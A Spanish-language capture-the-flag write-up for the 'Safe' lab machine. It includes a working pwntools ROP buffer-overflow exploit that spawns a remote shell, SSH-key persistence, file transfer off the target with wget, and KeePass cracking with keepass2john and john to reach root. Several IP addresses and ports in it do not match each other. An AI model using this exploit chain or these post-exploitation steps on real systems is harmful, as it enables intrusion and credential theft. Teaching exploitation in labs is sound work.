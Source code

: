 # Safe

### Tags
#### Buffer Overflow
#### Binary Exploitation

Empezamos lanzando nmap para ver que puertos y servicios que se están ejecutando.

![0](https://user-images.githubusercontent.com/50462944/174450002-4592b4e0-1b47-487e-95d7-a76c4e0b6a05.png)

Vemos que el puerto 80 y 1337 están abiertos.

Analizando la página se puede ver un comentario sobre el puerto 1337. 

![1](https://user-images.githubusercontent.com/50462944/174449826-9b702237-a914-4677-a066-f11224e3fc01.png)

Si accedemos a http://10.10.10.147/myapp, se descargará "myapp" que según el comentario se está ejecutando en ese puerto.


![2](https://user-images.githubusercontent.com/50462944/174450232-36dc8c6e-b2ec-4803-a879-e7eba0ce6010.png)

![3](https://user-images.githubusercontent.com/50462944/174449828-213d2e92-922f-4dc3-9496-b79cbcf842b1.png)

Viendo el servicio en 1337 y "myapp" podemos ver que es lo mismo.


![4](https://user-images.githubusercontent.com/50462944/174449829-80d951b4-d691-4329-aafb-27fced7f3a8a.png)

Analizando los strings legibles podemos ver que hay un /usr/bin/uptime y la pregunta que devuelve el programa.

Abrimos ghidra, y creamos un proyecto e importamos el archivo.

![s2](https://user-images.githubusercontent.com/50462944/174450325-c122d315-fef5-44ae-93b2-c38559494751.png)


![s4](https://user-images.githubusercontent.com/50462944/174449825-a44d5547-bd7e-4994-b4f7-92f6fb86f071.png)

Podemos ver una la función main, una variable local_78 con 112 bits, y una función a nivel de sistema.

Por lo que lo interesante sería poder cambiar el /usr/bin/uptime a un /bin/sh.

![6](https://user-images.githubusercontent.com/50462944/174449832-02c396f8-3dc8-479c-aa35-de1caedd6d0c.png)

Con gdb podemos ver las pilas.

![ksnip_20220618-161557](https://user-images.githubusercontent.com/50462944/174455304-4c4c91fb-402b-4be9-90e8-2786897e3e89.png)

Hacemos un breackpoint en la función main

![ksnip_20220618-152833](https://user-images.githubusercontent.com/50462944/174452172-8407bccd-b1b0-4658-a922-8db72cea2040.png)

Avanzamos en las pilas con "si" hasta system

![ksnip_20220618-152923](https://user-images.githubusercontent.com/50462944/174452229-eb448863-5294-43a9-83c5-ef4a58d762aa.png)

Se puede ver que el valor /usr/bin/uptime que es ejecutado a nivel de sistema está siendo guardado en la pila $rdi

![ksnip_20220618-153100](https://user-images.githubusercontent.com/50462944/174452266-ccb916ef-40de-4cda-9f84-b3fb9c87edb4.png)

```bash
~ python3 -c 'print("A"*120 + "B"*8 + "C"* 8)' # * 8 = x64 bits * 4 = x32 bits
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBCCCCCCCC
```

Ahora podemos ver que $rsp puede ser cambiado 

![ksnip_20220618-152509](https://user-images.githubusercontent.com/50462944/174452383-5afba89a-3979-4e1f-8651-d7d6b7627d19.png)

Analizando la funcion test podemos ver "MOV     RDI, RSP" que significa que está moviendo los valores el $rsp al $rdi. Recordando que $rdi es lo que se ejecuta en system y $rsp es lo que podemos modificar.

![5](https://user-images.githubusercontent.com/50462944/174449816-a39c1be0-5b8c-43a6-9737-71165b201520.png)

Y obtenemos 0x401206 del "JUMP   r13", además tenemos en cuenta el R14 y el r15 por lo que en el payload lo haremos un null.

![ksnip_20220618-164803](https://user-images.githubusercontent.com/50462944/174455374-1ab2a865-9180-4a40-aa85-229d9e4304d4.png)

```bash
~ cat poc.py
from pwn import *

context(terminal=['tmux', 'new-window'])
context(os='linux', arch='amd64')

p = remote("10.10.10.147", 1337)

junk = b"A"*112
# Una vez pasadas las 112 "A" va a haber un desbordamiento. junk es el offset
# Le restamos 8 porque /bin/sh\x00 serian 8 caracteres
bin_sh = b"/bin/sh\x00"
# Y remplazamos en binario el $rdi 

#gef> ropper --search "pop r13"

pop_r13 = p64(0x401206)
null = p64(0x0)

# ~ objdump -D ./myapp | grep system

system_plt = p64(0x401040)

# ~ objdump -D ./myapp | grep test

test = p64(0x401152)

payload = junk + bin_sh + pop_r13 + system_plt + null + null + test

# junk: es el offset
# bin_sh: "/bin/sh"
# pop_r13: llamará a system_plt
# system_plt -> system()
# null y null es por = r13, r14 y 15

p.sendline(payload)
p.interactive()
```

Una vez lanzado el ataque obtenemos una bash.

![7](https://user-images.githubusercontent.com/50462944/174449830-73918c79-32f7-4b06-8eaa-1eb3f07c1f76.png)

## Root

Nos creamos las llaves y las copiamos.

```bash
~ ssh-keygen | cat id_rsa.pub  | tr -d '\n'
``` 

Y en el lab creamos el directorio ssh y ingresamos la clave publica.

```bash
mkdir .ssh | cd .ssh | echo "<key.pub>" > authorized_keys
```

Ahora podemos acceder por medio de ssh.

```bash
~ ssh user@10.10.10.142
```

En el lab creamos un recurso compartido.

```bash
~ busybox httpd -f -p 4545
```

```bash
wget http://10.10.10.142:4545/file
```

Nos traemos las imagenes y el .kdbx.

```bash
for i in IMG_0545.JPG IMG_0547.JPG IMG_0552.JPG IMG_0546.JPG IMG_0548.JPG IMG_0553.JPG MyPassword.kdbx; do wget http://10.10.10.147:4645/$i; done
```

Despues se crean los hashes con la key por imagen.

```bash
for i in IMG_0545.JPG IMG_0547.JPG IMG_0552.JPG IMG_0546.JPG IMG_0548.JPG IMG_0553.JPG; do keepass2john -k $i Mypassword.kdbx; done > hashes
```

```bash
john --wordlist=../rockyou.txt hashes
```

```bash
keepassxc MyPassword.kdbx
```

Por ultimo ingresamos la contraseña y la imagen como key.

para obtener root

```bash
su root
```
